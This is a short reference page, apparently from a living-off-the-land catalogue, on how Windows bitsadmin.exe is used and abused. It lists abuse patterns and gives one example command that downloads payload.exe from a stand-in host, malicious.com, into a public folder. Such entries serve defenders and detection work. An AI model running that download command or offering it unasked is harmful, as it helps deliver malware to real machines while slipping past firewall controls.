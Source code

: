 # bitsadmin.exe
## What is it?
*BITSAdmin is a command-line tool that manages Background Intelligent Transfer Service (BITS), typically used for asynchronous file transfers in Windows.*

## Legitimate Usage
- *Transfers files in the background.*
- *Used by Windows Update and application updaters.*

## How to abuse it
- *Transfers malicious payloads using Windows-native services.*
- *Bypasses firewall restrictions.*
- *Provides stealthy file download capabilities.*

## Example Attacks
```
bitsadmin /transfer badjob http://malicious.com/payload.exe C:\Users\Public\payload.exe
```
